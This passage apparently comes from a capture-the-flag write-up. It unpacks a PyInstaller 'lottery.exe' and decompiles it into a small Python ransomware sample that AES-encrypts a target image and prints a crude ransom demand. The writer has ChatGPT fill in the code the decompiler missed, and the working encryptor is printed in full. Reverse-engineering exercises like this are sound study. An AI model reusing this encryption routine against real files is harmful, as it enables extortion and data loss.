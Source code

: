 ```
[+] Found 356 files in PYZ archive
[+] Successfully extracted pyinstaller archive: .\lottery.exe

You can now use a python decompiler on the pyc files within the extracted directory
```

Now we can use `pycdc` to get the .pyc file as it's original .py code

```
└─$ pycdc lottery.pyc
# Source Generated with Decompyle++
# File: lottery.pyc (Python 3.8)

import os
import tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile('w+b', False, **('mode', 'delete'))
    fp.write(key)
    return key


def encrypt_file(file_path, key):
Unsupported opcode: BEGIN_FINALLY
    iv = b'urfuckedmogambro'
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    key = generate_key()
    file_path = 'secret.png'
    encrypt_file(file_path, key)
    print('Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!')
```

Couple of code wasn't reverted, we can use `pycdas` to get all the python bytecode and give both this and that to chatgpt and tell it to generate the whole python code for us, end result we get the python code

```python
import os
import tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile('w+b', False, **{'mode': 'delete'})
    fp.write(key)
    return key

def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, 'rb') as file:
        data = file.read()
        padded_data = pad(data, AES.block_size)
    
    cipher = AES.new(key, AES.MODE_CBC, iv)
    encrypted_data = cipher.encrypt(padded_data)
    
    with open(file_path + '.enc', 'wb') as encrypted_file:
        encrypted_file.write(encrypted_data)
```